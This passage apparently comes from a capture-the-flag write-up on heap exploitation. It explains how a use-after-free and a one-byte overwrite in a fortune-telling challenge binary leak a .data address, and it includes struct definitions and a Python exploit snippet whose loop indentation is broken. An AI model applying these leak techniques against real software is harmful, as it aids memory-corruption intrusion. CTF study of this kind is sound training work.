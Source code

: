 ```
output:
0x55733b853
0x55733b853000
```

### Leak a .data Address
A tempting next step is to leak a glibc address using the UAF to return a `main_arena` address. This would be a very useful path forward in most challenges. However, as previously mentioned, glibc 2.34 removed `__malloc_hook` and `__free_hook` from allocation and deallocation calls. Therefore, the old friends that hijack `rip` are no longer available. FSOP is a logical next step, though this challenge presents a unique opportunity to leak the flag without touching glibc at all. Instead, the aforementioned `globals` struct in the data section is a vulnerable target. A clever challenger will notice that when the `globals.curr_cookie_index` value is maximized when it has a value of `0x21`, which is a valid chunk size parameter. Since the binary offers two allocation size options, 0x80 and 0x20, this is promising.

```c 
struct {
    char* sign;
    long curr_cookie_index; // max 0x21 when array is full
    char* oracle_file;
    long oracle_file_lines;
    char* cookie_file;
    long cookie_file_lines;
    long num_8ball_fortunes;
    unsigned long* lucky_number;
    char* name;
} globals = {0, 0, "oracle.txt\0", 11, "cookies.txt\0", 52, 0, 0};
```

Leaking a data address relies on both previously described vulnerabilities. The key is to allocate the previously created UAF chunk within a Magic 8 Ball fortune. Allocating a question buffer right up to the final quadword and printing the entry leaks the previously linked data address from the (admittedly weird) cookie linked list. Note that the second vulnerability does not replace the line feed (`\n`) character at the input's end, but rather the last byte in the `0x70` buffer.  This therefore overwrites the least significant byte in the linked .data address. That is not a problem, since the goal is fingerprinting where the .data segment starts, which likely has a `0x00` most significant byte anyway. From there, the address of the `globals` structure is a static offset from the .data start. 

```c
struct cookie_s {
  char fortune[0x68];
  unsigned int *next; // print this pointer after reallocating in 8 Ball question
};
```

```python
# alloc UAF into 8ball and fill up to the data segment address, read fortune to leak data address
for _ in range(0, 7):
eightball(b"flag.txt\0", 'Y')
eightball(b"A" * (0x68 - 17), 'Y')
leak = read_8ball(8)
rough_leak = int.from_bytes(b'\x00' + leak.split(b'\n')[1][:], "little")
print(hex(rough_leak))
data_base = rough_leak & ~0xfff
global_addr = data_base + 0x20
print(hex(global_addr))

# fill last index in cookie array
resp = cookie()
```
